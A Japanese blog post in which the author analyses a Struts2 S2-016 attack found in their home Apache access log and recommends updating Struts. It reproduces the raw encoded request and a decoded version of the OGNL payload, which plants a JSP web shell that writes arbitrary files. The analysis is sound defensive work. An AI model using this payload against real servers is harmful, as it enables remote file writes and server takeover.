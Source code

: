 ```yaml
---
title: apacheのaccess_logにjavaのソースコードみたいなアクセスが記録されていた。(Struts2の脆弱性S2-016への攻撃)
pubtime: 2015-07-01T16:04:00+09:00
tags: [Web, Apache, Java, セキュリティ]
description: 自宅サーバで動かしているApacheに対してStruts2の脆弱性「S2-016」を悪用しようとする攻撃が来ていたので、その内容を調べてみました。
---
```


さっきの[apache killerの話](/blog/2015/07/python-make-apache-killer)を書いたあとでapacheのアクセスログを見ていたら、こんなアクセスが。
```
xx.xx.xx.xx [01/Jul/2015:03:09:11 +0900] "GET /index.php?redirect:$%%7b%%2523req%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%%2523res%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%2523res.getWriter().println(%%2522okokok%%2522),%%2523res.getWriter().flush(),%%2523res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%%2523req.getRealPath(%%2522/%%2522)%%252b%%2522lndex.jsp%%2522)).append(%%2523req.getParameter(%%2522shell%%2522)).close()%%7d&shell=%%253C%%2525if(request.getParameter(%%2522f%%2522)!%%253Dnull)(new%%2520java.io.FileOutputStream(application.getRealPath(%%2522%%252F%%2522)%%252Brequest.getParameter(%%2522f%%2522))).write(request.getParameter(%%2522t%%2522).getBytes())%%253B%%2525%%253E%%253Ca%%2520href%%253D%%2522One_OK%%2522%%253E%%253C%%252Fa%%253E HTTP/1.1" 404 2583 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1"
```
なんじゃこりゃ。むっちゃ長い。

どうもプログラムのコードをそのまんま突っ込んであるようなので、バラしてみました。
```
redirect:
    ${
        #req = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
        #res = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
        #res.getWriter().println("okokok"),
        #res.getWriter().flush(),
        #res.getWriter().close(),
        new java.io.BufferedWriter(
            new java.io.FileWriter(
                #req.getRealPath("/") + "lndex.jsp"
            )
        ).append(#req.getParameter("shell")).close()
    }
    &shell = <%%
        if(request.getParameter("f") != null)
            (
                new java.io.FileOutputStream(application.getRealPath("/") + request.getParameter("f"))
            ).write(request.getParameter("t").getBytes());
    %%>
    <a href="One_OK"></a>
```
こんな感じになった。
javaだよjava。javaが埋めこまれている。

調べてみると、どうやら**Sturts2**とやらが関連するようです？
Sturts2というのはjavaでwebアプリケーションを記述するためのフレームワークとのこと。Apacheが作っているらしい。
で、今回問題になるのは*S2-016*という脆弱性。[Apache Struts 2 DocumentationのS2-016のページ](http://struts.apache.org/docs/s2-016.html)を見てみると、確かに似たような雰囲気のURIのサンプルが載っている。

脆弱性の内容としては、クエリに`redirect: `から始まる何かを書いたURIでGETすると、任意のソースを実行できてしまう、というもののようです。
バラしたURIを上に書きましたが、Javaのコードをそのまんま書いて、そのまんま実行するっぽい。
うーむ、くわばらくわばら。

影響をうけるのはStrutsの2.0.0から2.3.15とのこと。
Struts2を利用しているのなら要アップデート、ですかね。

---

参考：
- [Tomcat Files Getting uploaded - Security Loophole - Stack Overflow](http://stackoverflow.com/questions/21104956/tomcat-files-getting-uploaded-security-loophole)
- [Apache Struts の脆弱性 (S2-016) に関する注意喚起](https://www.jpcert.or.jp/at/2013/at130033.html)
